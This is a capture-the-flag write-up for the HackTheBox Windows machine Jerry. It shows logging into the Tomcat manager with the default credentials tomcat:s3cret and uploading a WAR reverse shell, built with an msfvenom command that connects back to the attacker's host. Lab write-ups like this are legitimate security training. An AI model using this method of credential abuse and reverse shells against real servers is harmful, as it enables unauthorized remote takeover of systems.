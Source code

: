 ```yaml
---
layout: post
title: HackTheBox&#58; Jerry
description: Writeup for HTB box Jerry.
category: HackTheBox
---
```


### Introduction

Jerry is a Windows box, difficulty Easy on HTB.

The box is very easy.
There is an Apache Tomcat running as NT AUTHORITY\SYSTEM.
We can get root shell directly by finding default credentials for manager panel then upload the jsp reverse shell.

### Initial Scan

![Jerry-1](/resources/Jerry-1.png)

### User and Root: Apache Tomcat

We see the only open port is port 8080 running Apache Tomcat (I guess that explains the name of the box).
Going to the page we see default landing page of Apache Tomcat version 7.0.88.

Checking Manager App button on the front page, we are presented with a login prompt.
Trying default credential such as admin:admin does not work and we are seeing a 403 Access Denied page.
![Jerry-2](/resources/Jerry-2.png)

Here we can see instructions for admin to add authorized accounts.
The default credential here is `tomcat:s3cret`.
Login again with this credential and we get access to Tomcat Web Application Manager.
![Jerry-3](/resources/Jerry-3.png)

We can see a section "WAR file to deploy", which allows us to upload file in `.war` format.
Basically the Tomcat is written in Java and can serve `.jsp` file.
`.war` is essentially zipped java file.

We can generate a reverse shell in `.war` format using `msfvenom`.
``` bash
msfvenom --payload java/shell_reverse_tcp lhost=10.10.14.25 lport=1337 --format war > shell.war
```

Then we just need to upload `shell.war` file and browse to 10.10.10.95:8000/shell to trigger the payload.
![Jerry-4](/resources/Jerry-4.png)

We get a root shell and can read both user.txt and root.txt.

